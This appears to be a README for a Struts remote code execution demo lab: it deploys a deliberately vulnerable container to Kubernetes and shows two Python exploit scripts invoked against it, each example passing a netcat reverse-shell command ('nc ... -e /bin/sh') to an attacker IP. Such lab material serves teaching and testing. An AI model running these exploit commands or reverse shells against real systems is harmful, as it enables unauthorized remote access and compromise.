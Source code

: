 # struts-demo
Modified scripts for struts remote code execution (RCE) demo.   
The yaml file will deploy vulnerable container running struts super-app via apache tomcat website.

Deploy the container via yaml file to kubernetes cluster:
kubectl create namespace struts
kubectl create -f struts.yaml -n struts

A service will be created for the website.  Use the IP address from the website with the python scripts to exploit a remote code execution vul in the struts container.

kubectl get svc,pods -n struts

struts1.py example: (insert your own IP addresses / port for the reverse shell)

python3 struts1.py http://xxx.xxx.xxx.xxx:8080/super-app/orders/3 'nc -nv 123.456.789.001 1337 -e /bin/sh'

struts-pwn2.py example:
python struts-pwn2.py --exploit --url 'http://xxx.xxx.xxx.xxx:8080/super-app/orders/3' -c 'nc -nv 123.456.789.100 1337 -e /bin/sh'
